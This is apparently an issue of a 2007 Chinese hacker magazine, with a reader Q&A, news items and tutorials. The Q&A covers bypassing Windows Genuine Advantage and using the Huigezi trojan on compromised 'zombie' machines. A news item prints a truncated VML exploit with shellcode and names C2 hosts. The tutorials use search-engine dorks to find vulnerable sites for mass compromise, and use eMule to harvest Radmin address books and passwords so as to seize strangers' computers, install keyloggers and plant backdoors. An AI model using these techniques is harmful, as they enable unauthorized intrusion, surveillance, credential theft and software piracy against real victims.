**Q：电脑中的操作系统要升级补丁，不过不是正版，我该怎么办啊？**

**A：** 现在要是想升级的话，比较有效的办法有下面两种：

- 1、使用 360 安全卫士来升级，请到“http://360safe.com”下载。打开软件之后，点击上面的“修复”，找到“修复系统漏洞”，然后它会自动扫描出需要安装的补丁。找到补丁后点击左下角的“全选”，接着点击右下角的“下载并修复”就可以使用补丁修复系统漏洞了。
- 2、使用“Windows 正版校验破解工具”，请到“http://www.greendown.cn/soft/2217.html”下载。下载之后直接解压，然后运行里面的“installer.bat”即可。

**Q：XP 专业版与家庭版的具体区别是什么？希望详细地答复。**

**A：** 其实 XP 专业版和家庭版的区别并不是很大，首先在显示 LOGO 上是有区别的，专业版是“Windows XP Professional”，家庭版是“Windows XP Home Edition”。其次在使用方面，个人觉得的区别就是，专业版里面有“IIS（Internet 信息服务）”，家庭版则没有，而且家庭版不支持“远程桌面连接”，专业版则支持。详细情况建议通过网络进行关键字搜索，你将会了解更多。

**Q：我的电脑常常在使用 BT 下载或者长时间没有使用键盘、鼠标的时候，网络就断开了，可是我是设置了掉线自动连接的，不知道为什么？开始以为中毒了，后来我在游戏的时候跳出提示，说我闲置了 20 分钟，请问要怎么设置才不会掉线？**

**A：** 其实这个没有病毒，是相关设置的原因。首先打开“网上邻居”的“属性”，然后找到你现在使用的连接，在该连接上单击鼠标右键并选择“属性”，然后选中“选项”，这里有一个“挂断前闲置的时间”，把它设置成“从不”，然后确定就可以了。

**Q：我的 MP3 里有 50 首歌曲，都是 .mp3 后缀名，今天又下载了 10 首 .rm 后缀名的歌曲。然后打开 MP3，里面显示的是 50 首歌。我就又把 MP3 连接到电脑，把那新下载的 10 首 .rm 后缀名的歌曲全部改成了 .mp3 后缀名，然后 MP3 里显示的是 60 首歌了。听的时候播放到这 10 首时就不能播放了，显示说格式错误，怎么办啊？**

**A：** 因为 MP3 一般都只支持 mp3、wma 等后缀名的音乐格式，不支持 rm 后缀名的音乐格式；而且音乐文件的后缀名修改后其格式并没有转换，需要用音频转换工具进行完全转换才可以。这里给你介绍一个软件，下载地址：“http://www.orsoon.com/Software/3662.html”，下载之后先解压，然后点击一下“绿化”就被注册了。打开软件，点击“打开”，选择需要转换的 rm 格式音乐文件，然后在右边选择要转换成的格式，如 mp3 或 wma 等，最后点击上面的“转换”就可以了。

**Q：我看到很多的教程里都是把要编辑的东西直接点击右键，然后选择“发送到”选项，比如鸽子生成出来的一些菜单就有类似的功能。**

**A：** 其实这个很简单，在右键中的“发送到”其实在一个文件夹，所以我们只要把文件的快捷方式放在这个文件夹里面就可以搞定了。首先你要知道你的当前用户，然后打开如下路径“C:\Documents and Settings\Administrator\SendTo”，这里的“Administrator”就是当前用户名，要是其他的用户，路径中的用户名也会进行相关改变的。

**Q：最近我想安装 IE7 和 Windows Media Player 11，不过我的系统是盗版的，不知道怎么能解决？**

**A：** 安装“IE7 和 Windows Media Player 11”的时候系统会自动检测当前系统是否是正版，如果系统为盗版，那么将无法安装，其实解决的办法很简单。首先要确定你使用的是 WinXP SP2 版本，不然装不了，步骤如下：

- 1. 打开这个地址“C:\Documents and Settings\All Users\Application Data\Windows Genuine Advantage\data”，删掉“data.dat”这个文件。
- 2. 要是不能发现“data.dat”这个文件，那么先打开“我的电脑”，然后选择“工具”——“文件夹选项”——“查看”，最后选择“显示所有的文件和文件夹”。
- 3. 断开网络，这里很重要。你可以直接“拔掉网线”来搞定，当然也可以按照下面的方式断开。在“网上邻居”上单击鼠标右键，选择“属性”，在“网络连接”中找到当前使用的网络连接，然后在其上单击鼠标右键，选择“停用”就断网了。
- 4. 在网络断开后就可以像正版一样直接安装“IE7”和“Windows Media Player 11”了。

> **Q：虚拟机是一种应用软件吗？可不可以在别的电脑上装好虚拟机，然后再将已在虚拟机上装好的系统复制到 U 盘，再拿到别的电脑上用啊？这样就可以带着虚拟机跑了，多方便。**

**A：** 可以事先在其他电脑上安装好虚拟机的系统之后，然后再拷贝自己虚拟机中的系统到其他计算机的虚拟机里面，不过需要注意下面几点：

- 1. 虚拟机的版本需要相同，也可以使用更高的版本来读取旧版本的相关设置及文件。比如你事先安装的是 5.0 版本，复制之后到一个安装虚拟机 5.5 版本的电脑上，那么这个虚拟机的系统也是可以运行的。
- 2. 需要准备一个大的移动存储设备，一般虚拟机文件（也就是虚拟机的系统）大小都在 1.5G-2.0G 左右，所以建议你使用一个至少超过 2G 的 U 盘，或者使用移动硬盘。
- 3. 一定要把整个虚拟机文件所在的文件夹复制，因为里面的每个文件都不能丢失，要是缺少了可能会直接导致虚拟机系统不能运行。

> **Q：我想使用我的肉鸡来下载很大的东西，请问我用灰鸽子让肉鸡远程下载文件，那么文件是下载到哪里呢？灰鸽子下载文件的位置是在哪里啊？**

**A：** 灰鸽子的这个下载功能并不完善，因为下载后的文件可能并不会提示保存在电脑上的某个位置，一般可能会在“盘符:\Documents and Settings\LocalService\桌面”这个路径，你可以直接下载一个“rar 后缀”的文件测试一下以获得提示。先选择灰鸽子里面的“下载后自动运行”选项，这样下载的文件会自动打开，就会有提示出现要求保存的位置。我想这个应该是一个临时存储，所以建议你打开这个肉鸡的最高权限，比如打开肉鸡的 3389 之后登录到机器里面再下载。

> **Q：在 Win2003 和 Win2000 系统下，登录时要按“Ctrl+Alt+Del”才能登录进去，有什么方法能消除这个“Ctrl+Alt+Del”对话框直接进入系统？还有，我在 Win2003 中每次有关机时弹出一个对话框，要输入一些文字才可以关机，怎么回事呢？**

**A：** 这个提示是服务器操作系统的一个亮点，主要是出于安全考虑，我们只要修改机器的安全配置就可以解决了。单击“开始”，选择“运行”，然后输入“secpol.msc”，打开“本地安全设置”，依次展开“安全设置”——“本地策略”，然后选中“安全选项”，在右边窗格中找到“禁用 Ctrl+Alt+Del 进行登录”的设置，双击并修改为“已启用”即可。

这里推荐一个小工具“Win2003/XP 优化工具 V1.44”，下载地址：http://dx.3800hk.com/Soft/zhly/15152.html。

> **Q：虽说我格了无数次盘了，但是我还不知道快速格式化和普通格式化有什么区别？**

**A：** 其实“快速格式化”和“普通格式化”并没有很大的区别，主要区别就在于是否对硬盘进行检测。“快速格式化”只从分区文件分配表中做删除标记，而不扫描磁盘以检查是否有坏扇区。要是你的硬盘以前曾被格式化过并且在确保硬盘没有损坏的情况下，建议你使用此选项；而“普通格式化”将会检测，并且在时间上也会长一些，一般我们采用“快速格式化”就可以了。

> **Q：最近在网上找了一个屏幕录像专家来做教程，不过我下载的是注册版，结果录制了还是出现“屏幕录像专家未注册”的字样，如何才能去掉啊？**

**A：** 破解的版本可能会存在上面的问题，我们可以通过两种方式来解决：

- 1. 关闭“屏幕录像专家”后重新打开，这样再录制就不会出现“未注册”了，不过这样不一定每次都有效果。
- 2. 这种方式是绝对能行的，不过可能有点麻烦。首先我们打开“屏幕录像专家”，找到“工具”，选择“exe 转成 lx”，点击“浏览”找到你录制的文件。然后点击“转换”，它会让你选择保存的文件夹，这里一定要选择“屏幕录像专家目录下面的‘ls’文件夹”。转换之后回到主界面，点击一下保存的“.lx”文件，然后在“基本设置”里面勾选“显示自设信息”，点击“设置”，在里面写入你需要出现的信息，再选择“输出高度压缩的 exe 文件”，最后点击“输出”就可以搞定了。

> **Q：最近在本地安装了 pjblog，一切都很正常，不过发现在本机登录之后不能返回到首页，无法进行发表文章等管理。请帮忙解决一下。**

**A：** 不能登录的主要原因在于 pjblog 数据库文件夹的权限设置。在默认情况下，IIS 是没有对 NTFS 类型分区的文件夹给予“写入”权限的，所以我们要自己动手设置一下“写入”权限。

打开 pjblog 数据库文件夹（默认是“blogDB”），右键打开该文件夹的“属性”，然后找到“安全”选项，这时可以发现，系统默认并没有添加 IIS 的来宾用户。

点击“添加”，然后“高级”，最后点“立即查找”，这时我们可以发现计算机所有的用户。找到“IUSR_<计算机名>”这个用户，然后“双击”，这时又回到了“安全”选项这里，我们在其中可以对“IUSR_<计算机名>”这个用户设置权限。当然是选择“写入”选项，然后点“确定”就可以了。

最后需要说明的是，WinXP 默认情况下是不会有“安全”选项卡的，我们打开“控制面板”，然后找到“文件夹选项”，把“使用简单文件共享（推荐）”的勾去掉就可以了。

> **Q：我在电脑上建立了一个文件夹，在里面放了一些东西，并运行了其中的一些程序。不过我关闭程序之后，想把这个文件夹删除，系统提示不能删除，有什么简单的办法删除掉吗？**

**A：** 虽然你没有使用程序了，可是调用了系统的窗体，必须要结束掉调用的进程才可以删除。打开“Windows 任务管理器”，在列表中结束“explorer.exe”这个进程。不过我们结束进程后发现桌面上没有任务栏了，不要慌，依然打开“Windows 任务管理器”，选择菜单“文件”——“新建任务”，输入“explorer”，这时你再删除文件夹就可以搞定了。

## 29号信箱

很多内容，如盗号、偷看别人邮件的行为都是伪黑客的所作所为，真正的黑客精神是要研究程序漏洞，从而达到通过漏洞入侵的目的，但入侵并不是为了破坏和偷看他人隐私！仅仅教人如何盗号、看隐私，难免让人误解了黑客精神，感受不到原生态的黑客。所以，未学技术，先学精神及黑客道德是极为重要的！

无道德的某编：以后的黑客们将有可能极少单兵作战，更多的是适当利用群体团队！第一次看到了“黑客道德”的呼声，我们需要重新定义的黑客标准及精神，这些都应该建立在黑客道德上！

### 含义·精神·道德

- 城市 / 广西柳州
- 论坛ID / 星空下的传说
- 邮件 / wdwj945@163.com
- →建议和意见：

看了几期《黑客手册》，让我明白了黑客的含义，也对网络安全有了新的定义。每个人都扮演着不同的角色，这个世界有君子，有小人，有黑客，也有骇客！总之掌握了尖端的技术，拥有了独到的思维，我们就能实现梦想，就能创造出自己的风格。让我们共同努力，为黑客精神而奋斗！

感觉到春天来临的某编：当在自己的心中有了衡量黑客标准的天平，黑客们的春天就会到来了！新时代的黑客精神使技术攻防更人性化，黑客也能够在自己的生活中享受网络世界进出的乐趣。

- 城市 / 安徽安庆
- 论坛ID / 没有
- 邮件 / hotzhouyao@sohu.com
- →对某篇文章的读后感：
- 文章名称：联合入侵网吧之终极计划

读后感：千防万防，家贼难防！一内一外，网吧哪受得了？变相的特洛伊木马呀！木马计呀！把人植入网吧了！只是有点深，工具也一时难找齐！

- →建议和意见：

书中的很多内容并不适用，也有很大的局限性和运气成分！

### 菜鸟·术语

- 城市 / 泸州
- 论坛ID / sock
- 邮件 / qazliaoyuxiao@163.com
- →建议和意见：

我的技术算是不菜也不高手的那种，在杂志里有很多的东西都让我迷惑不解。书里的一些内容还讲得不够详细，有的技术还很假。我有时在电脑旁操作书上的技术时，有的内容和现实根本就不一样，我觉得在杂志里还应该对一些木马、后门、攻击术进行讲解，在讲入侵网站的过程时要简单明了，以后在杂志中多加点黑客入门的知识，让小菜鸟也来了解黑客。

每期必出场的菜编：各位小菜还会写信，我连 BI 都好久没有摸过了……《黑手》一直都以小菜进阶为主要目标，每期都有许多适合小菜们参照试验的文章，比如上期的“菜鸟日记”及“菜鸟恶补”等栏目，大家一定要反复地多看多试验，掌握基本方法并领会其原理含义哦！

- 城市 / 沈阳
- 论坛ID / 无
- 邮件 / epq_008@163.com
- →建议和意见：

对我这个菜鸟来说，感觉书中内容有很多地方太乱看不懂！比如“动网 7.0 SP2”是什么意思？还有，数据库的路径怎么找？就是“/data/dvbbs7.mdb”吗？前面就没了吗？我觉得自己在黑客技术上基础知识学得很乱，没有系统性，希望能把每处地方或绝大多数文章多加注释。顺便再问：什么是跨站？渗透与注入的区别在哪里？

再次出场的菜编：不懂就问，这是小学老师常教给学生的话！现在有了网络，不懂就搜！搜索引擎是最好的老师，当你有问题的时候找 Google、Baidu，或者两只老虎（Yahoo 或 Sohu）也行！你只要把需要搜索的关键字进行搜索，就一定会有答案的！（读者：什么是关键字？某编：不要折磨我啦……这菜我不卖啦！）


## 黑客手册

黑客漫游指南 投稿 Mail：nohack@21cn.com WWW.NOHACK.CN 黑客 © 自由独行的边缘文化 [本手册随 CD 一同赠送，不得单独销售]

# 非安全

网络实用手册 2007  
——防御者  
2007 03  
10.8


## TOP100 强安全工具第 20 名

## 菜鸟也来玩转炸弹攻击

GFI LANguard Network Security Scanner  
管理员密文泄露高危漏洞

在 Insecure.Org 网站 2006 年度 TOP100 强安全工具中，它排第 20 位。但它却同样被排名为第 9 的 Cain&Abel 拉下马来，难道“落后就要挨打”？敬请翻看全球黑客顶尖兵器谱 9 和 20 是如何同室操戈的。

鞭炮声犹在耳，却已迎来 3 月复苏，网页/硬盘/QQ/IP/TXT 文本/电邮/光驱/手机等炸弹我们一起打包送上如何？不要害怕，我们还随包赠送各种防御方法。

## 幸福

一个性格细腻而又有些自闭的女孩，和自己心爱的男孩产生误解之后最终还是得到了真爱。被丘比特的箭射中，也注定了会受伤，只是我们常常因为刚开始的幸福而忘记了疼痛。

## 菜鸟玩远程包含漏洞实战篇

> “做黑客，怎么可以无耻到这种地步？”
> “高手啊！你就发发慈悲，给我们点机会吧”
> 作为菜鸟的我不甘忍受高手的蹂躏，菜鸟们，咱们自己玩吧！

- [HACK]
- 一鼓作气玩穿冰点极限的黑客游戏
- 从 Web 漏洞到 Root 权限全面展现
- 浅谈如何留下隐形后门
- 一次“完整”的渗透过程
- 巧用网站配置文件提升权限
- 好心有好报——记一次除马过程

- [菜鸟]
- 百度批量抓鸡
- 我用“电驴”抓肉鸡
- 绕过微软正版验证，轻松安装 Microsoft Media Player 11 和 IE7.0
- 注入菜鸟也能玩破解
- 菜鸟也拥有练习安装操作系统的电脑
- 再也不要背叛我！——迅雷

## 入侵防御（三）

- ①如何管理计算机用户
- ②如何为自己的系统打补丁

- 搜索出巅峰权限
- 分析中国网络电视被黑以及友情检测江苏特价图书批发网
- JSP 系统中的异常处理跨站及跨站详解
- 注入——嘉缘人才管理系统
- 对奇迹 SF 天使之翼 MU 程序的突破
- F-blog 漏洞分析
- 注入——击垮青创文章系统

- [破解]
- 破解前奏之手脱 EXEStealth 的几种方法
- 轻松解除《网络守护神标准测试用版》的时间限制


- [黑客厨房]
- 熊猫烧香专杀工具集合
- 图像工具小集合
- 启动易（EasyBoot）Vista 总管
- [音乐天堂]
- Red Coil（红线圈）爵士乐欣赏

- [动画教程]
- 我用电驴抓肉鸡
- 反黑精英之入侵防御（三）动画
- UniExtract 实战卡巴斯基安装程序
- [黑动漫]
- 《星际海盗》第 4 集——逝去的日子（回忆布鲁斯）

- [编程]
- Anything in possible
- 简简单单穿透 WinXP SP2 防火墙
- MSN，你的记录我来看

## 写在前面

### 网络流行词——水系列

阳春三月，等待了好久的暖日还没有到来，难道太阳被月亮黑了吗？宇宙网络就这么薄弱？“春风吹，战鼓擂，我是黑客我怕谁？”，众多总是以自己是黑客自居的朋友们常把这句话挂在嘴边，成为了自己的口头禅。真正的黑客是根据环境而隐匿或不张扬的，让我想起个笑话：

春天来了，喜鹊飞来了，妈妈对孩子说：“这是喜鸟！来者是客”；过一会儿燕子也飞来了，妈妈说：“这是益鸟！也是客！”；这时候孩子看见乌鸦飞来了，就问它：“你也是客人吗？”。乌鸦NB地叫道：“Yes，吾乃黑客！”

别以为你长得黑就是啊！新时代的黑客不仅要技术，更要精神！过完中国农历春节，我们才正式进入2007年了啊！地球还在转，太阳与月亮也依然白天黑夜地进出，方便我们知道起床上班和睡觉休息的时间。某猴也在计划着新的一年该做些什么呢？还是先找她……私人的事情暂时放一边，先把这片自留地搞好吧！

常在网上走，一般用QQ……有了QQ自然也会接触到QQ群，甚至被强行“劫持”入群，啊呵……现在的群真是泛滥，而且有许多哑群，潜水者众多！好友特别给某猴整理了一份“水系列”的网络流行词，完全原创，不敢独享，特此公开部分：

- **水泥**：永远不动的“混凝土”级别潜水者，只是挂着个用户名和头像在那里，也许自己早就忘了这个QQ号码了……
- **水鬼**：冷不防就出来“呵呵、嘿嘿、哈哈”地笑，只笑而不发言……
- **水草**：所谓墙头草，在群里常常多边靠，谁发言都会关心，是群里搅动气氛的潜水者。
- **水雷**：没有触发就没有危险，一有感兴趣的话题就冒出来跟随发言，而且常常语惊四座。
- **水卧**：只知道有软卧硬卧的（你当坐火车啊），这类潜水者极少出来，间谍类，喜欢穿马甲，一人多个QQ号进同一个群……
- **水牛**：灌水强人，搅水狂人，没有话题就闲不住……
- **水流**：在群里故意发布大家反感的不良信息，被群友戏称为水流，即流氓。
- **水蛇**：美女、妖精的戏称，多数都被看过了！我是说照片而已……
- **水车**：进出及发言等行为都很频繁，但常常是答非所问，让人怀疑IP是来自精神病院。

……

当然还有更多，像水母、水平、水生等，几乎带水的2字词都被概括了，I服了，YOU服吗？TOO?

希望大家也能善于观察体会，发掘创意，让我们的生活更“和谐”！就让从刊头普及的流行词成为各位黑侠的黑语暗号吧！记住：黑客并不绝对代表破坏、叛逆及危害……


## 新闻短评快

## 新闻概要

木马猖獗，钓鱼泛滥，春季流感大家防！当挂马已成为习惯，钓鱼已成为时尚，日日有漏洞，月月有病毒。网络速度越来越快，也造就了它们流行得更快！这好不容易过完春节，就等着三月里的小雨淅沥沥地下，冲刷一下大家惊魂未定的灵魂吧！

### 警惕：东方卫士主页被挂马

最近，DSW Lab Avert小组监测到国内知名安全网站——“东方卫士”主页被挂木马，在其首页上，通过查看页面源代码，可以看到网页底部被插入一条“`<iframe src=`”指令（如图1）。

该指令将隐藏打开一个新的页面，这个页面利用了最近流行的VML漏洞来进行挂马，成功溢出IE并下载其它恶意网站上的木马文件。用户被攻击后，会执行一个名为：Trojan-Downloader.Win32.small.kk 下载器，该下载器运行后，连接到 532.li（IP: 60.215.129.100）下载一个木马执行。如图2。


## 漏洞公告牌

```html
<!-- uni'exploit! -->
<html xmlns:v="urn:schemas-microsoft-com:vml">
<head>
<object id="VMLRender" classid="CLSID:10072CEC-8CC1-
<style>
v\:* { behavior: url(#VMLRender); }
</style>
</head>
<body>
<script language="javascript">
	var shellcode = unescape("%u9090"+"%u9090"+
"%u6460%u30a1%u0000%u00c0%u402u%u088b%uadc1%u708b"+...
"%u2u81%u00ec%u0000%u056c%u8e68%u0e4e%u8e8ec"+...
"%u00ff%u0000%u4589%u5604%u9868%u8afe%u4e80%u00ff1"+...
"%u0080%u4589%u5608%u2568%uffb0%ue8c2%u00e3%u0000" +
```

图2

### 安全专家称钓鱼攻击数量首超病毒木马

近日，据国外媒体报道：国外安全专家认为，目前钓鱼攻击数量第一次超过了利用带有病毒和特洛伊木马的电子邮件攻击！钓鱼攻击和病毒攻击比例上的差距主要是因为目前病毒攻击已经成为众矢之的，而且大规模病毒已经不会出现以往的大规模爆发，而钓鱼攻击目前已经变得更复杂。

随着双项认证的采用，目前已经出现了复杂的“中间人”钓鱼工具和网站，尽管目前这些类型攻击的实例还很罕见。而且，钓鱼邮件呈现个人化趋势，这样欺骗攻击让人更加容易上当。

最可怕的是，越来越多的钓鱼网站开始使用Flash网页，这种技术比HTML技术更加容易逃避网站浏览中的反钓鱼检测。所以现在最关心的是邮件所带来的钓鱼攻击，而不是恶意附件攻击。

> 小迷点评：中国是世界网民最多的国家，是不是意味着中国是未来黑客最多的国家？是世界病毒最猖獗的国家？看来，现在上网已经要武装到牙齿才算是有点安全……

- 病毒名: Trojan-Downloader.Win32.small.kk
- 大小: 0x142D (5165), (disk) 0x142D (5165)
- SHA1: F76F4E9A21C38432500BD33818ACA2FCBAB5DA16
- 壳信息: 未知　危害级别: 中

- 病毒名: Backdoor.Win32.Hupigon.dzy
- 大小: 0x5D200 (381440), (disk) 0x5D200 (381440)
- SHA1: FF359B600CE0B1ECF7C4AACBE76EA6264DE1005C
- 壳信息: 未知　危害级别: 中

病毒行为：Trojan-Downloader.Win32.small.kk 下载了 Backdoor.Win32.Hupigon.dzy 后，执行该后门，后门文件解析读取 lxn2wyf8899.3322.org 上面的一个 ip.txt 文件，根据IP内容，木马反弹连接到攻击者控制主机接受控制。

同时，两个木马分别添加了注册表启动项目和系统服务：注册表路径：
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

- 键名: wdfmgr32
- 键值: "C:\WINDOWS\system32\wdfmgr32.exe"
- 系统服务名称: Network nois
- 显示名称: Network nois
- 服务描述: network nois
- 对应文件路径: C:\windows\svchost..exe

解决方案：

- 1、推荐安装“超级巡警”监测查杀以上木马。
- 2、请广大用户及时升级系统补丁，预防更多的 VML 漏洞攻击。
- 3、为了最快保障广大用户不受木马侵害，在事件解决前请暂时不要访问“东方卫士”网站。

### 小心 MSHTA 漏洞为黑客开启远程控制之门

这是一个可以让黑客欣喜若狂的新漏洞，一旦该漏洞被激活，就会有大量计算机成为黑客手中的肉鸡……

微软的 Windows 操作系统在进行了短暂的“喘息”后，近日又在攻击爱好者的不懈努力下，被成功找出了几个高危系统安全漏洞，而 Microsoft Windows MSHTA 脚本执行漏洞就是其中的重要一员。攻击者可利用此漏洞控制受影响的系统，进行恶意程序的安装、系统文件的管理等，或创建一个拥有完全控制权限的管理员账号。

小知识：

MSHTA 即 HTA，此处的“MS”主要用于强调这是微软的漏洞。HTA 全名为 HTML Application，就是 HTML 应用程序，其实只要简单地用“hta”为扩展名保存 HTML 页面就算创建了一个 HTA 文件。以前就有很多恶意代码利用它，但是随着用户安全意识的提高，以及安全厂商将它列入黑名单，这些含有 HTA 代码的文件发挥的破坏作用已大不如前了。然而，Windows MSHTA 脚本执行漏洞的出现，使得潘多拉的魔盒再次开启，噩梦开始……

Microsoft HTML Application Host（MSHTA）是 Microsoft Windows 操作系统的一部分，必须使用它才能执行 HTA 文件。而 Windows Shell 中存在远程代码执行漏洞，起因就是系统不能正确识别文件的关联程序。其实说简单一点就是 Windows 系统在处理文件关联程序的时候出现了问题。用户运行恶意文件后，系统会调用 MSHTA 打开这个文件，如果这个文件中包含有 HTA 代码，那么系统就会立刻执行这段代码，从而引发各种安全问题。

一般常用的脚本编辑器就可以编写 HTA 文件，只要被攻击的用户双击运行了该文件，被攻击的计算机的系统就会下载并运行已经设置的链接文件，进而受远程计算机的控制。攻击者可通过客户端程序中的各个命令对被攻击的计算机进行远程控制，包括文件管理、屏幕管理、注册表管理等。

防范措施：

用户想要成功地对 Windows MSHTA 脚本执行漏洞进行防范，最简单的方法就是尽快安装微软推出的安全补丁，这样就可彻底根除该漏洞对系统的危害。当然，还可以通过安装杀毒软件对利用该漏洞下载的恶意程序进行查杀，从而进行防范。

### Apple QuickDraw InternalUnpackBits 含远程漏洞

受影响系统：Apple Mac OS X 10.4.8

描述：QuickDraw 是 Apple 操作系统中所捆绑的图形处理工具，它在解析带有畸形 RLE 记录的 PICT 图形时存在内存破坏漏洞，远程攻击者可能利用此漏洞对用户机器执行拒绝服务攻击。如果用户受骗打开了恶意图形文件的话，就会触发这个漏洞，破坏传送给 _GetSrcBits32ARGB 函数的指针，导致拒绝服务。

厂商补丁：编辑本文时厂商还没有提供补丁或者升级程序，我们建议使用此软件的用户随时关注厂商的主页以获取最新版本：http://www.apple.com

### Ipswitch WS_FTP 2007 SCP 处理格式串处理漏洞

受影响系统：Ipswitch WS_FTP Pro 2007

描述：BUGTRAQ ID: 22275

WS_FTP 是一个 Winsock 协议下标准的 FTP 客户端工具，它的 SCP 处理模块存在格式串处理漏洞，远程攻击者可能利用此漏洞通过诱骗用户打开恶意文件控制用户机器。如果使用 WS_FTP 2007 脚本处理器打开特制的 SCP 文件的话，就可能导致使用 SHELL 脚本命令执行任意代码。

厂商补丁：编辑本文时厂商还没有提供补丁或者升级程序，我们建议使用此软件的用户随时关注厂商的主页以获取最新版本：http://www.ipswitch.com/

**接龙语：**

开学了，鸡是少不了的，不知道大家在这个美好的假期里有多少收获呢？这次的肉鸡让我们温故而知新，看看怎样利用百度来批量捕捉肉鸡。当然，电驴也不甘寂寞，为我们准备好了现成的肉鸡，精彩内容，看杂志吧……

## 百度批量抓鸡

花非花[L.S.T]&&[I.S.T]

最近网上出现了一篇几十个字的文章，在 www.slenk.net，风雨贴了出来，如下：

- 关键字：二手网
- 默认数据库地址：/data/buk/cnmai.mdb
- 默认后台：/admin/admin_login.asp


图1 搜索 tjinfo.asp 的结果


图2 搜索 comlist.asp 的结果

我看了一下，发现大部分的程序是用廊坊供求信息网修改过来的。而 data 目录下的 buk 是管理员备份的默认目录。相信一些朋友看过我在《黑手》投的稿子关于这套系统的漏洞。

本人将几个关键文件罗列了一下，发现使用这套程序的网站还不少。

- 在百度或者 Google 里搜如下内容，以百度为例：
  1. **inurl:tjinfo.asp**  
     返回如图1所示。  
     大概有 13600 篇。
  2. **inurl:comlist.asp**  
     返回如图2所示。  
     大概有 26800 篇。


图3 搜索 xinmemo.asp 的结果


图4 类似这样的界面

  3. **inurl:xinmemo.asp**  
     结果如图3所示。  
     大概有 1300000 篇，相信这样的数字达到一些朋友的要求了吧？

搜到的网站界面类似图4这样的界面，就是使用廊坊系统。

从上面的搜索结果，我们可以看出关键字、关键文件定位的好坏对这套系统的搜索结果的影响还是很大的。找到了使用这套程序的网站，利用方式有好多种，分别是：暴库、上传漏洞、Cookie 欺骗和注入漏洞。而这些利用方式，分别在 12 期（06年）和 2 期（07年）在《手册》有公布。这里就不再介绍了。不会的可参照那两篇文章。此文到此便结束了。文章虽短，但是相信通过此文，您能抓到的肉鸡就不少了。

> **编辑点评：**文章虽然简单短小，但它点出了一个我们忽略掉的简单入侵方法，通过搜索引擎查找存在漏洞的程序文件，这种方法的成功率就在于关键字的定义。大家搜索出一个漏洞网址列表，然后再利用注入工具批量注入，这样效率还是很高的。

## 我用“电驴”抓肉鸡

Simeon

- 从本文中你可以学到：
  - 一、利用电驴找 Radmin 的配置文件
  - 二、利用 Radmin.rpb 寻找肉鸡

我用“电驴”抓肉鸡！难道是放一个“电驴”在路上，等“火鸡”过来，一不小心踩在“电驴”上结果给烫熟了，结果就成“肉鸡”了。很多朋友说抓肉鸡很难，找好肉鸡就更难，其实也不然，关键就在于敢动脑子。没有做不到的事情，只有想不到的事情。“人有多大胆，地有多大产”。闲话少说，且写正传！

### 一、抓肉鸡工具

工欲善其事，必先利其器。今天我们抓肉鸡主要使用以下几种工具：

- **eMule**，eMule 俗称“电驴”，跟 FlashGet、迅雷、BT 等为同类软件，其最大特点是搜索方便。本文用到它的地方就是其搜索功能和下载功能。
- **Radmin 客户端**，Radmin 客户端是用来连接服务器端实施控制的工具。在 Radmin 中只需要导入 Radmin 地址簿，并输入正确的口令即可对肉鸡进行控制。

### 二、搜索 Radmin.rpb 文件

#### 1. 什么是 Radmin.rpb 文件

在安装 Radmin 3.0 及其后续版本中，只要使用过 Radmin 客户端，Radmin 控制端就会自动在系统中生成一个唯一的 Radmin.rpb 文件，如图1，其文件路径为：“C:\Documents and Settings\Administrator\Application Data\Radmin”。

**注意：**系统“Application Data”目录默认情况为隐藏，因此如果想要查看，必须通过“文件夹选项”，设置显示“系统受保护文件”以及“显示所有文件以及文件夹”。


如果各位朋友在“工作”过程中，“偶然”发现有这个文件，哈哈，恭喜你发财了。Radmin.rpb 文件主要包含 IP 地址以及端口号，通常如果我们使用 Radmin 远程控制软件，一般都有保留肉鸡 IP 以及口令在客户端上的习惯，试想如果您有很多很多肉鸡，每一个都查找或者通过记忆，是非常麻烦的，而且不可能一下子全记住。

#### 2. 搜索 Radmin.rpb 文件

eMule（电驴）用户共享文件夹来实行下载积分，共享得越多，也就贡献值越多，下载速度也越快。很多用户在使用时，一不小心将不该共享的文件夹给共享了，或者用户在共享文件时对一些配置文件不了解，认为不会造成什么危险，因此理所当然地共享。使用“电驴”搜索 Radmin.rpb 文件时，必须要求能够连接上 eMule 服务器。默认情况下，运行 eMule 程序，大概几十秒钟，程序会自动连接上 eMule 服务器。在 eMule 中使用“搜索”功能，在“名字”中输入“radmin.rpb”、“.rpb”、“rpb”，在搜索结果中去查找包含“radmin.rpb”字样的条目，如图2，双击进行下载。


#### 3. 等待 Radmin.rpb 文件

呵呵，等待“Radmin.rpb”文件是一个既痛苦又快乐的过程，有时候运气好，一会儿就会下载到本地，毕竟 Radmin.rpb 这个文件不会太大，一般几K到几十K大小，当然越大越好。eMule 下载文件时，如果没有指定下载文件的目录，则默认下载到 eMule 安装程序下面的 “Incoming” 文件夹中。可以通过“共享文件”——“下载的文件”查看文件是否已经成功下载，如图3。

### 三、导入 Radmin.rpb 文件到 Radmin 客户端

运行 Radmin 客户端程序，选择“工具”→“导入地址簿”，从 eMule 的下载目录中将本例中下载的 “radmin3phonebook.rpb” 文件导入 Radmin，如图4、图5。导入成功后可以看到很多乱码，这些乱码主要是因为语言不一样，可以不用管它。通过 Radmin 查找主机是否在线，依次查看其中的肉鸡，如果肉鸡是连通的，就用该肉鸡 IP 后面括号中的字符串（口令）进行测试，呵呵，找到了不少肉鸡，如图6。


### 四、实施控制

实施控制部分，很多朋友都懂，但是笔者还是想说几句，上去以后不要急于安装其它马儿，如果搞得太匆忙，容易水土不服而夭折，可以参考的做法是先看看情况，装一个键盘嗅探器，看看计算机的主人都干些什么，安全感强不强，当然先装一个后门也不是不可以，万一跑了不是很可惜嘛，在确认没有什么“危险”时，可以装后门、挂马啦、渗透控制等等。


### 五、结束语

为了阐述其过程，笔者啰嗦了半天，本质上非常简单，没有什么技术，就是找到 radmin.rpb，然后导入 Radmin 客户端，通过用户自己保留的口令进行测试。通过这种方法获取的肉鸡质量比较高，口令一般都不会是弱口令，因此一旦成功控制以后，一定要小心，然后才能有较大的收获。笔者通过这个方法进行扩展，曾经一下子控制了几个服务器集群。本文主要想告诉大家，在黑客技术中，网络安全是相对的，网络攻防也是相对的，成功地攻破一个网络有时候也有偶然的机会，关键就是思维的创新。

> **编辑点评：**
